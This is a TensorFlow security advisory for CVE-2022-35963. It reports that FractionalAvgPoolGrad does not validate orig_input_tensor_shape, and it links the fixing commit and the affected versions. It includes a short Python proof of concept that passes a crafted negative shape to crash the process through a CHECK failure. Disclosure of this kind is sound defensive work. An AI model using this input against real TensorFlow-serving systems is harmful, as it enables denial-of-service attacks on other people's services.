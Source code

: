 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-095.md
## TFSA-2022-095: `CHECK` failures in `FractionalAvgPoolGrad`

### CVE Number
CVE-2022-35963

### Impact
The implementation of `FractionalAvgPoolGrad` does not fully validate the input `orig_input_tensor_shape`. This results in an overflow that results in a  `CHECK` failure which can be used to trigger a denial of service attack.
```python
import tensorflow as tf

overlapping = True
orig_input_tensor_shape = tf.constant(-1879048192, shape=[4], dtype=tf.int64)
out_backprop = tf.constant([], shape=[0,0,0,0], dtype=tf.float64)
row_pooling_sequence = tf.constant(1, shape=[4], dtype=tf.int64)
col_pooling_sequence = tf.constant(1, shape=[4], dtype=tf.int64)
tf.raw_ops.FractionalAvgPoolGrad(orig_input_tensor_shape=orig_input_tensor_shape, out_backprop=out_backprop, row_pooling_sequence=row_pooling_sequence, col_pooling_sequence=col_pooling_sequence, overlapping=overlapping)
```

### Patches
We have patched the issue in GitHub commit [03a659d7be9a1154fdf5eeac221e5950fec07dad](https://github.com/tensorflow/tensorflow/commit/03a659d7be9a1154fdf5eeac221e5950fec07dad).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
